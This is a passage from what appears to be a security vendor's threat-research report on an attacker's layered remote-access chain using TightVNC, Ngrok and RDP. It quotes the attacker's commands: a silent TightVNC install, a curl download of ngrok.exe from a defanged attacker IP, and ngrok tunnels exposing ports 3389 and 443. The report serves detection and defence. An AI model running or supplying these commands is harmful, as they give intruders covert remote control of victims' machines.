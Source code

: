 
curl http://www.tightvnc.com/download/2.8.59/tightvnc-2.8.59-gpl-setup-64bit.msi -o tight.msi


cmd /c start msiexec /i tight.msi /quiet


cd ../..


cd "program files"


cd tightvnc


- Downloading and execution of Ngrok (our report titled [“Analysis of a Convoluted Attack Chain Involving Ngrok”](/en_us/research/20/i/analysis-of-a-convoluted-attack-chain-involving-ngrok.html) provides a thorough discussion)  




curl http://31.214.157.169[:]80/ngrok.exe -o


"C:\Windows\system32\ngrok.exe" tcp 3389


"C:\Windows\system32\ngrok.exe" tcp 443






![The detection of Ngrok](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/22/a/uncovering-and-defending-systems-against-attacks-with-layers-of-remote-control/fig4-remotecontrol.png)
Figure 4. The detection of Ngrok




Further investigation revealed that the auth\_token used by Ngrok originated from the email address excizewn[@]gmail[.]com. This was most likely a dummy account that could be discarded as necessary.


Ngrok was used to open ports 3389 and 443 to the internet via the Ngrok servers. This brought us to the fourth and final layer of remote control.


**Fourth layer of remote control: RDP**


Lastly, the malicious actor resorted to RDP, which is a legitimate remote control tool that is built into Microsoft Windows. RDP provides an interface that lets end users connect to another computer over a network connection. RDP has long been abused by malicious actors to exfiltrate data as part of attacks to steal information that can be sold in the [underground](https://www.trendmicro.com/vinfo/tmr/?/us/security/threat-intelligence-center/deep-web/), enabling cybercriminals to integrate hijacked systems into [networks of bots](/en_us/research/21/c/emotet-one-month-after-the-takedown.html) to carry out more serious incursions. (Incident reports of RDP abuse for stealing data can be found [here](https://www.trendmicro.com/vinfo/tmr/?/us/security/news/vulnerabilities-and-exploits/infosec-guide-remote-desktop-protocol-rdp) and [here](https://www.trendmicro.com/vinfo/tmr/?/us/security/news/cybercrime-and-digital-threats/nefilim-ransomware-threatens-to-expose-stolen-data).)


As many organizations have adopted hybrid work models enabled by remote work connection, the use of RDP has become more common, which has resulted in many IT teams’ considering RDP traffic as normal and harmless. However, this likely misconception makes RDP an attack vector for malicious actors trying to dodge detection. Unless one keeps a watchful eye on the telemetry, the likelihood is high for security teams to gloss over this event because it can be construed as ordinary interaction between two users connected to the same system.
